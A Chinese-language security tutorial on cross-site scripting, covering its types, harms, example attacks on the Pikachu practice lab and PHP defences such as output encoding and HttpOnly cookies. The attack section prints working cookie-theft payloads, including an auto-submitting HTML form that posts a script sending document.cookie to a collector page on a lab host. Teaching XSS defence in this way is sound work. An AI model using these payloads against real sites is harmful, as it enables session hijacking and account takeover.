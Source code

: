 - [XSS攻击如何产生？](#xss攻击如何产生)
- [主要类型以及原理？](#主要类型以及原理)
- [XSS危害](#xss危害)
- [利用XSS进行攻击活动](#利用xss进行攻击活动)
- [如何防护](#如何防护)


## XSS攻击如何产生？

黑客在你的浏览器中插入一段恶意 JavaScript 脚本，窃取你的隐私信息、冒充你的身份进行操作。这就是 XSS 攻击(Cross-Site Scripting，跨站脚本攻击)

因为浏览器无法区分脚本是被恶意注入的还是正常的内容，它都会执行，况且 HTML 非常灵活，可以在任何时候对它进行修改。

XSS漏洞的核心就是，网页执行了构造的恶意脚本。至于如何让网页执行，就是XSS漏洞的挖掘点。网页的内容一般都是由后端服务器发送过来，一般来说后端服务器接收前端请求，执行一些操作，再返回数据到前端进行展示。

返回的数据有两种来源：

第一种：前端发送过来的，后端进行了一些操作，再发回前端（可能增加、减少数据）
--》这种情况就有可能产生**反射型XSS**

第二种：与数据库交互，从数据库中读取数据到前端显示。
--》这种情况就有可能产生**存储型XSS**（前提是已经将恶意payload写入数据库）

因此对于XSS漏洞的防护就可以从两个角度进行：
- 对输入进行过滤（）
- 对输出进行转义

## 主要类型以及原理？
- 反射型
  - 顾名思义，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又将这部分返回给用户，恶意脚本在页面中被执行。一般发生在前后端一体的应用中，服务端逻辑会改变最终的网页代码。
    eg: ?input=<script>alert(1)</script>
  - <img src="images/image-20210304212336102.png" alt="image-20210304212336102" width="50%;" />

- DOM型
  - 目前更流行前后端分离的项目，反射型 XSS 无用武之地。 但这种攻击不需要经过服务器，我们知道，网页本身的 JavaScript 也是可以改变 HTML 的，黑客正是利用这一点来实现插入恶意脚本。
  - <img src="images/image-20210304212357239.png" alt="image-20210304212357239" width="50%;" />


- 存储型
  - 又叫持久型 XSS，顾名思义，黑客将恶意 JavaScript 脚本长期保存在服务端数据库中，用户一旦访问相关页面数据，恶意脚本就会被执行。常见于搜索、微博、社区贴吧评论等。
  - <img src="images/image-20210304212425402.png" alt="image-20210304212425402" width="50%;" />


## XSS危害

！！因为XSS借助于构造JS脚本实现，所以任何使用JS可以实现的事情都可以通过XSS实现。 
- 通过 document.cookie盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 利用XSS进行攻击活动
攻击payload的制作分两种类型：
- **Get型 ** 
  构造恶意链接中带有参数

>eg:`http://**.**.**/pikachu/vul/xss/xss_reflected_get.php?message=test&submit=submit`
>
>message的内容会在页面上显示，所以可以在message参数值中构造js语句执行一些恶意操作
>
>eg:`<script>document.location = 'http://**.**.**/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`   盗取cookie值


- **Post型 ** 
需要构造一个页面，页面中包含表单，提交表单数据形成post请求

页面中包含一个表单，表单的请求地址是存在XSS漏洞的页面地址。
post提交的内容是恶意内容，value值。
表单请求执行结果返回到xss_reflected_post.php，触发执行value中的内容。

```html
<html> 
  <head> 
    <script>window.onload = function() {  document.getElementById("postsubmit").click();}</script> 
  </head> 
  <body> 
    <form method="post" action="http://10.201.164.32/pikachu/vul/xss/xsspost/xss_reflected_post.php">     
      <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://10.201.164.32/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  </script>"/>     
      <input id="postsubmit" type="submit" name="submit" value="submit" /> 
    </form> 
  </body> 
</html>
```



## 如何防护
根据恶意内容在浏览器上显示的位置不同划分：

1. html普通标签位置输出
   
   将内容输出到`<div> <p> `等html中常见的标签中，当作标签的内容显示。
  -->直接使用htmlspecialchars实体编码即可
   eg:
      ```php
      $div=$_GET['div'];
      //解决方法：
      // $div .= htmlspecialchars($_GET['div'],ENT_QUOTES);  
      <div>
        <?php echo $div;?>
      <div>
      ```
   
   

2. 普通标签的普通属性
   
   如输出到input的value属性值
  -->直接使用htmlspecialchars实体编码即可
   ```php
    $msg .= $_GET['msg'];
      //    防范措施:html实体编码
      //    $msg .= htmlspecialchars($_GET['msg'],ENT_QUOTES);
    <form>
      <input name="msg" value="<?php echo $msg;?>">
    </form>
   ```

3. 输出在事件属性中

  输出位置在标签的事件属性中，如onmouseover
  -->
  ```php

    <form>
      <input type="button" value="submit" onmouseover="init('<?php echo $in;?>')">
    </form>
  ```

4. 输出在特殊的属性中

  如a标签的href属性
  --> 按输入的内容的合法格式进行正则匹配，检查是否是url，再进行html实体编码

  a标签中href属性支持javascript:伪代码执行
  
  ```php
  function check_url($url){
    if (preg_match('/\Ahttp:/',$url) || preg_match('/\Ahttps:/',$url) || preg_match('#\A/#',$url)){
        return true;
    }else{
        return false;
    }
  }
  if (isset($_GET['url'])){
    $url .= htmlspecialchars($_GET['url'],ENT_QUOTES);
  }
  
  <a href="<?php echo $url;?>">www.google.com</a>

  ```

5. 输出点在js中

  输出内容在一段js代码中
  -->转义函数:所有的字符串,除字母,数字,.号,-号外的其他全部进行转义为unicode(utf-8是unicode的一种实现),unicode可以在js中可以被正常解析使用,所有的转义操作在后台进行后输出到前台。
    注意：js本身不解析html实体字符
  
  ```php
  //转换字符的编码
  function unicode_escape($str){
      $u16 = mb_convert_encoding($str[0],'UTF-16');
      return preg_replace('/[0-9a-f]{4}/','\u$0',bin2hex($u16));
  }
  //将字母和数字还有.-排除后的剩下的字符全部\uXXXX的unicode的形式进行转义
  //搜索一个正则,并使用指定的回调函数进行callback
  function escape_js_string($input){
      return preg_replace_callback('/[^-\.0-9a-zA-Z]+/u','unicode_escape',$input);
  }

  <script type="text/javascript">
    function init() {}
    // 005-输出点在js中,构造闭合，即可，payload:xx';alert(1);//
    var echoxy = '<?php echo $name;?>';
    //    alert(echoxy);
    if (echoxy === '>中国'){
        alert("比较成功,你的编码杠杠的~");

    }
  </script>
  
  ```


总体思路:对用户输入进行过滤,对输出进行编码;

1. 对用户输入进行XSS防御方式有2种:
   
   基于黑名单的过滤和基于白名单的过滤. 而白名单相对来说更安全;
   
   黑名单:只规定哪些数据不能被输入,很可能被绕过;比如对 '  "   <> 等进行过滤
   
   白名单:只定义哪些数据正常才能被提交;

2. 设置http-only参数为true,这样JS就不能读取cookie信息了;(特殊常见可能被绕过)
   
   Cookie使用过程：
   
    Step1：浏览器向服务器发起请求，这时没有Cookie。
   
    Step2：服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie。
   
    Step3：在该Cookie到期前，浏览器访问该域下的所有页面，都将发送该Cookie。
    HTTPOnly是在Set-Cookie时被标记的。服务器可能会设置多个Cookie（多个key-value对），而HttpOnly可以有选择性地加在任何一个Cookie值上。在某些时候，应用可能需要JavaScript访问某几项Cookie，这种Cookie可以不设置HttpOnly标记；而仅把HttpOnly标记给用于认证的关键Cookie。

3. 使用一些函数进行防御

  * htmlspecialchars()：将输入内容转换成HTML实体
  	* &--》&amp 

  	* “  --》&quot

  	* ’  --》&#039

  	* < --》&lt

  	* > --》&gt

  * htmlentities()：把特殊字符转换成HTML实体
  
  	* '  "  &
  * strip_tags()：自动去掉字符中的标签
      	* eg:<script>alert(document.cookie);</script>--->alert(document.cookie)

   使用这种方式，链接跳转也有可能出现XSS

   即标签的href、src等属性中，包含javascript:等可执行代码

   另外，style的属性中：
   background-image:url("javascript:....")

   expression(js代码)
   这两种也有可能导致xss，但目前已被浏览器修复。
   eg：<a href="javascript:alert(&#x27;XSS;&#x27)"></a>(单引号被html编码)

   当用户点击该链接时仍会弹出xss

   需要检验其内容，禁止以javascript:开头的链接或者其他非法的scheme

4. 不要随意打开一些来历不明的网站或链接